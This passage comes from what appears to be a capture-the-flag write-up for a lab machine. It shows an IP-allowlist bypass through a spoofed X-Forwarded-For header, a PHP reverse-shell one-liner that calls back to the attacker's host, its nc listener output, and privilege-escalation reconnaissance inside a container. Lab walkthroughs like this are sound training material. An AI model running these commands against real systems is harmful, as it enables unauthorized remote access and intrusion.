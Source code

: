 This bypassed the check and let us in. After getting it, the pwd - password manager site, does as it says, and shows us the passwords it manages:
```
url | username | password (cleartext)

http://shell.harder.local | evs | [Redacted]
```

## Shell sub-domain
Visiting the shell sub-domain, we find a similar login page. I tried using `admin:admin` just to see if it'd work again, however it didn't. Luckily I found the credentials a few moments ago.
Using the found creds, we manage to login, however we are greeted with another security check block: *"Your IP is not allowed to use this webservice. Only 10.10.10.x is allowed"*.
From previous knowledge, I knew there's a http header called `X-Forwarded-For: [IP]` which it usually used with proxies, so the server would know who is the original person that made the request, however this header can also be abused to bypass checks like this, unless properly checked by the server.

So I intercepted the request with burp, and added the header to the request. I was then greeted with a scuffed web shell.

I tried using a bash reverse shell script, however it seemed like the machine didn't have bash, so I used a php reverse shell one liner from: https://www.revshells.com
`php -r '$sock=fsockopen("10.8.89.237",4444);shell_exec("/bin/sh <&3 >&3 2>&3");'`

and got a shell as www-data:
```
┌──(kali㉿hotdog)-[~/Desktop]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.89.237] from (UNKNOWN) [10.10.221.180] 50392
id
uid=1001(www) gid=1001(www) groups=1001(www)
```

## Shell
### www-data
I started by trying to stabilize the shell for easier use, however since bash wasn't on the system, I failed to do so.
After some manual enumeration, I found that this was some sort of container, and most binaries were just busybox.
I decided to whip-up a linpeas scan for a quick overview of the machine.

With the script I found a few things I though were worth taking a look:
- evs-backup.sh in `/etc/periodic/15min` - Possible "cron" I can hijack.
- Internal open ports - 8080, 9000 - Possible vulnerable services to break out of the container.
- The terminal was ash - Just something I thought was good to know.
- `/usr/local/bin/execute-crypted` - Peculiar SUID binary that might be vulnerable.
- `/usr/local/bin/run-crypted.sh` - Seems related to the SUID binary.

I started by looking at the backup script, thinking there's something inside I could hijack. However all I found inside was a note:
```
# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "[Redacted]"
```
